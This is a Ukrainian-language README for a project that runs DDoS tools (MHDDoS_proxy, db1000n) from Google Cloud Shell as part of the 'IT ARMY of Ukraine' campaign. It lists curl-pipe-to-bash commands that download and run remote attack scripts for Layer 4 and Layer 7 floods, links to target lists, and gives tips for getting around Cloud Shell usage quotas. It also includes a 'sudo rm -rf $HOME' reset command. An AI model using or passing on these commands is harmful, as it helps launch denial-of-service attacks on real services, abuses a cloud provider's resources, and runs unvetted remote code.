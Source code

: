 ## DDoS whith Google Cloud Shell
#### Scripts for durable cloudshell session. Test!
#
### Використовуємо https://shell.cloud.google.com/?fromcloudshell=true&show=terminal
#
### Команди для встановлення та запуску MHDDoS_proxy
:white_check_mark:**Layer7:**
```
curl -l https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/Start_L7m.sh | bash
```
:grey_question:**Layer4:**    
~~`curl -l https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/Start_L4.sh | bash`~~    
```
curl -l https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/L4_tcp.sh | bash
```
:white_check_mark:***--itarmy*:**    
```
curl -l https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/itarmy.sh | bash
```
:grey_question:**All targets:**    
```
curl -l https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/ALL.sh | bash
```
:grey_question:**Розділений термінал (Layer7+Layer4):**    
```
curl -l https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/Start_dualShell.sh | bash
```    
#
### :white_check_mark: Команда для встановлення та запуску db1000n 
```
curl -l https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/db1000n_GShell.sh | bash
``` 
#
:exclamation:• У [Google Cloud Shell](https://shell.cloud.google.com/?fromcloudshell=true&show=terminal) в налаштуваннях бажано **вимкнути статистику використання**.    
:exclamation:• **Рекомендується використовувати 1 термінал на акаунт**.    
:exclamation:• Максимальна тривалість сеансу Cloud Shell - 12 годин. Новий сеанс можна почати одразу після розриву.    
:exclamation:• Враховуйте, що встановлені тижневі квоти на використання, 1 акаунт - 50 годин у звичайному режимі та 50 годин у ефемерному режимі (*до закінчення квоти у звичайному режимі - вмикаємо Ephemeral Mode (ставимо - "Завжди") та отримуємо ще 50 годин використання на поточний тиждень*)    
• **Для скидання Cloud Shell** - Видаліть усі файли з домашнього каталогу, команда: `sudo rm -rf $HOME`, далі - у меню Cloud Shell клацніть значок меню з трьома крапками, а потім натисніть "Restart" *(Буде надано нову віртуальну машину, а домашній каталог буде відновлено до стану за замовчуванням)*
#
#
#### Списки з цілями
https://raw.githubusercontent.com/Operation-Stop-russia/targets_lists/main/L7m.lst    
https://raw.githubusercontent.com/Operation-Stop-russia/targets_lists/main/L4t.lst    
https://raw.githubusercontent.com/Operation-Stop-russia/targets_lists/main/L4_tcp.lst
#
#
[IT ARMY of Ukraine](https://t.me/itarmyofukraine2022)
